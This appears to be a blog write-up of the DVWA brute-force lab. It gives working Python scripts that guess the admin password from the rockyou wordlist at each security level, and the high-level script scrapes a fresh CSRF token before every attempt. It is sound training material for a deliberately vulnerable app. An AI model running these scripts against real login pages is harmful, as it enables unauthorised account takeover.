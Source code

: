 +++
date = '2025-10-16T14:35:21+07:00'
draft = false
title = 'DVWA Brute Force Low/Medium/High Security'
tags = ['DVWA']
description = 'Brute-force and get the admin account credentials.'

[cover]
  image = '/images/posts/dvwa-brute-force.jpg'
  alt = 'DVWA Brute Force'
  caption = 'DVWA Brute Force'
  relative = false
+++

## Description

-   **Vulnerability:** Brute-force
-   **Impact:** Brute-force and get the admin account credentials.

---

## LOW Security Level

This is the simple code I created to brute-force the admin account using `rockyou.txt` password lists.

_Change `PHPSESSID` to your own one._

```python
import requests

baseUrl = "http://localhost/DVWA/vulnerabilities/brute/?Login=Login&username=admin"

cookies = {
    "PHPSESSID": "91fdcd96e5376633ef607edd0a1b8093",
    "security": "low"
}

try:
    with open('/usr/share/wordlists/rockyou.txt') as file:
        for line in file:
            password = line.rstrip()
            url = baseUrl + f"&password={password}"

            try:
                print(f"Attempting: password={password}")
                res = requests.get(url, cookies=cookies)

                if "Username and/or password incorrect." not in res.text:
                    print()
                    print("=> Password found: ", password)
                    exit()
            except requests.exceptions.RequestException as e:
                print("Request error:", e)
                continue
except FileNotFoundError as e:
    print("File not found:", e)
```

## MEDIUM Security Level

The only difference between LOW and MEDIUM level is in the `Login failed` if logic:

```php
// Login failed
sleep( 2 );
echo "<pre><br />Username and/or password incorrect.</pre>";
```

If we submit wrong credentials instead of immediately pop up an error message it will wait for 2 seconds, so we can use the same code as LOW Security level to brute-force the admin account.

## HIGH Security Level

This level add a `CSRF Token` in order to prevent attackers from freely brute-force the account if you inspect the form you can see a new input

```html
<input type="hidden" name="user_token" value="CHANGE_EVERY_TIME_RELOAD_THE_PAGE" />
```

The server will check this created `user_token` before doing the authentication logic and this token is required. The server code:

```php
// Check Anti-CSRF token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```

Also, this `sleep` function will make the response become slower when we submit a wrong credentials

```php
// Login failed
sleep( rand( 0, 3 ) );
echo "<pre><br />Username and/or password incorrect.</pre>";
```

The workflow is this:

1. First make a GET request to page and take the created `user_token`.
2. Use that `user_token` to make a brute-force request trying the password.
3. If failed continue make a GET request to get new `user_token` and brute-force again.

Exploitation code:

```python
import requests
import re

baseUrl = "http://localhost/DVWA/vulnerabilities/brute/"

cookies = {
    "PHPSESSID": "91fdcd96e5376633ef607edd0a1b8093",
    "security": "high"
}

pattern = r"name='user_token' value='([a-fA-F0-9]+)'"

try:
    with open('/usr/share/wordlists/rockyou.txt') as file:
        for line in file:
            password = line.rstrip()
            url = baseUrl + f"?Login=Login&username=admin&password={password}"

            try:
                # Take CSRF Token
                res = requests.get(baseUrl, cookies=cookies)

                match = re.search(pattern, res.text)
                if match:
                    token = match.group(1)

                    url += f"&user_token={token}"
                else:
                    print("Failed to taken token")
                    continue

                # Brute-force password
                print(f"Attempting: password={password}")
                res = requests.get(url, cookies=cookies)

                if "Username and/or password incorrect." not in res.text:
                    print()
                    print("=> Password found: ", password)
                    exit()
            except requests.exceptions.RequestException as e:
                print("Request error:", e)
                continue
except FileNotFoundError as e:
    print("File not found:", e)
```

## Resources

-   https://owasp.org/www-community/attacks/Brute_force_attack
-   https://www.symantec.com/connect/articles/password-crackers-ensuring-security-your-password
-   https://www.golinuxcloud.com/brute-force-attack-web-forms
